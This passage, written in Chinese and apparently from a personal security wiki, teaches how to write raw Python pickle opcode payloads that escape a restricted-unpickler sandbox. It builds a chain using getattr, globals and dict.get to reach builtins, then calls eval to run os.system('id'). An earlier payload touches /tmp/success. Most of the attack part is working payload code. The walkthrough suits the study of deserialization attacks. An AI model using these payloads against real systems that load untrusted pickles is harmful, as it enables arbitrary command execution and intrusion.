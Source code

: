 显然，这里的memo是没有起到任何作用的。所以，我们可以将这段代码进一步简化，去除存储memo的过程：
`cposix system (Vtouch /tmp/success tR.`
这一段代码仍然是可以执行命令的。当然，有了memo可以让编写程序变得更加方便，使用g即可将memo中的内容取回栈顶。
那么，我们来尝试编写绕过沙盒的pickle代码吧。
首先使用c，获取getattr这个可执行对象：
`cbuiltins getattr`
然后我们需要获取当前上下文，Python中使用globals()获取上下文，所以我们要获取builtins.globals：
`cbuiltins globals`
Python中globals是个字典，我们需要取字典中的某个值，所以还要获取dict这个对象：
`cbuiltins dict`
上述这几个步骤都比较简单，我们现在加强一点难度。现在执行globals()函数，获取完整上下文：
`cbuiltins globals (tR`
其实也很简单，栈顶元素是`builtins.globals`，我们只需要再压入一个空元组`(t`，然后使用`R`执行即可。

然后我们用`dict.get`来从`globals`的结果中拿到上下文里的`builtins`对象，并将这个对象放置在`memo[1]（p1 put 1`）：
`cbuiltins getattr (cbuiltins dict S'get' tR(cbuiltins globals (tRS'builtins' tRp1`
到这里，我们已经获得了阶段性的胜利，builtins对象已经被拿到了：
[![Choco‘s wiki/Notes/media/cfa8e19257cd0a98394ce8c3c6ead884_MD5.jpg](/img/user/Choco%E2%80%98s%20wiki/Notes/media/cfa8e19257cd0a98394ce8c3c6ead884_MD5.jpg)

接下来，我们只需要再从这个没有限制的builtins对象中拿到eval等真正危险的函数即可：
... `cbuiltins getattr (g1 S'eval' tR`
g1（get 1）就是刚才获取到的builtins，我继续使用getattr，获取到了`builtins.eval`。

再执行这个eval：
```
cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'builtins'
tRp1
cbuiltins
getattr (g1 S'eval'
tR(S'__import__("os").system("id")'
tR.
```

![Choco‘s wiki/Notes/media/dd4f4832604f016c5ac4ec0445d13127_MD5.jpg](/img/user/Choco%E2%80%98s%20wiki/Notes/media/dd4f4832604f016c5ac4ec0445d13127_MD5.jpg)

成功绕过沙盒。

当然，编写pickle代码远不止这么简单，仍有几十个OPCODE我们没有用过，只不过我们现在需要的只是这部分罢了。